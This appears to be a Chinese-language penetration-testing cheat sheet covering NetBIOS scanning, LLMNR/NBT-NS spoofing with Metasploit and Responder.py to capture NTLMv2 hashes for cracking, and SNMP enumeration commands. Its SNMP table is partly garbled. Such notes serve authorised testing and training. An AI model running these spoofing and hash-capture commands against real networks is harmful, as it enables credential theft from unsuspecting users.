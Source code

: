**NBTScan unixwiz**

在Kali上安装使用：

```text
apt-get install nbtscan-unixwiz 
nbtscan-unixwiz -f 192.168.0.1-254 > nbtscan
```

#### LLMNR / NBT-NS欺骗

从网络中窃取凭证

**使用Metasploit进行 LLMNR / NetBIOS请求**

欺骗/毒化 LLMNR / NetBIOS请求：

```text
auxiliary/spoof/llmnr/llmnr_response
auxiliary/spoof/nbns/nbns_response
```

抓取哈希

```text
auxiliary/server/capture/smb
auxiliary/server/capture/http_ntlm
```

最后会得到NTLMv2 哈希，可以使用john或者hashcat破解。

**Responder.py**

你也可以选择使用 responder

```text
git clone https://github.com/SpiderLabs/Responder.git
python Responder.py -i local-ip -I eth0
```

注：整个渗透测试过程可以一直允许Responder.py

#### SNMP枚举工具

SNMP枚举工具有很多。

美化SNMP输出结果使易于阅读。

```text
apt-get install snmp-mibs-downloader download-mibs
echo "" > /etc/snmp/snmp.conf
```

| 命令 | 解释 |  |  |
| :--- | :--- | :--- | :--- |
| `snmpcheck -t 192.168.1.X -c public` \` snmpwalk -c public -v1 192.168.1.X 1 | grep hrSWRunName | cut -d __ -f  `<br />` snmpenum -t 192.168.1.X `<br />` onesixtyone -c names -i hosts \` | SNMP枚举 |

**SNMPv3枚举工具**

使用nmap识别SNMPv3服务器

```text
nmap -sV -p 161 --script=snmp-info TARGET-SUBNET
```
